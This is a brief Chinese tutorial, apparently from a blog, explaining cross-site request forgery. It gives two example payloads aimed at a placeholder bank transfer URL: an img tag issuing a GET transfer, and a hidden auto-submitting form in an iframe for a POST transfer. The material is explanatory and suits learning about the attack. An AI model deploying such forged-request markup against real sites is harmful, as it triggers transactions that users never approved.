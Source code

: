 CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

**原理 **

![image](https://pic002.cnblogs.com/img/hyddd/200904/2009040916453171.jpg)





必须经历两个步骤：

1. 受害者需要登录信任网站A，并获得cookie
2. 在不登出A的情况下，访问危险网站B

其实就是B中用html内嵌了一个对A的请求，当用户访问B网站的时候，就会向A发送带cookie的请求

**实例** ：

假设网站A的一个请求为：http://www.mybank.com/Transfer.php?toBankId=11&money=1000

那在网站B中可以在html中使用一个img标签

```html
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>	
```

这样子在访问网站B的时候，就会发起对网站A的一个请求，就好比CDN一样。

如果在网站A中是用post请求，那么在网站B里使用form表单即可

```html
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

